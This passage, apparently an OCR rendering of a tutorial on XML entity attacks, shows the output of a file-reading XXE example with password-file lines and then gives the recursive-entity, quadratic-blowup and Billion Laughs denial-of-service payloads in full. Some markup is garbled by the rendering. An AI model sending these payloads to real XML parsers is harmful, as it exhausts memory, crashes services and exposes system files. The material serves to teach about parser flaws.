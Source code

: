 The previous code produces the following output:

`$ java parseDocument`

<!DOCTYPE contacts SYSTEM "contacts.dtd">
**John\#\#\# User Database**

**`...`**
**`nobody:*:-2:-2:Unprivileged` `User:/var/empty:/usr/bin/false`**
**`root:*:0:0:System` `Administrator:/var/root:/bin/sh`**

### Recursive Entity Reference

When the definition of an element `A` is another element `B`, and that element `B` is defined as element `A`, that schema describes a circular reference between elements:

`<!DOCTYPE A [`
` `

<!ELEMENT A ANY>
` <!ENTITY A "`<A>`&B;`</A>`"> `
` <!ENTITY B "&A;">`
`]>`
<A>**`&A;`**</A>

### Quadratic Blowup

Instead of defining multiple small, deeply nested entities, the attacker in this scenario defines one very large entity and refers to it as many times as possible, resulting in a quadratic expansion (O(n2)). The result of the following attack will be 100,000\*100,000 characters in memory.

`<!DOCTYPE root [`
` `

<!ELEMENT root ANY>
<!ENTITY A "AAAAA...(a 100.000 A's)...AAAAA">
`]>`
<root>**`&A;&A;&A;&A;...(a` `100.000` `&A;'s)...&A;&A;&A;&A;&A;`**</root>

### Billion Laughs

When an XML parser tries to resolve the external entities included within the following code, it will cause the application to start consuming all of the available memory until the process crashes. This is an example XML document with an embedded DTD schema including the attack:

`<!DOCTYPE root [`
` `

<!ELEMENT root ANY>
<!ENTITY LOL "LOL">
` <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">`
` <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">`
` <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">`
` <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">`
` <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">`
` <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">`
` <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">`
` <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">`
` <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;"> `
`]>`
<root>**`&LOL9;`**</root>
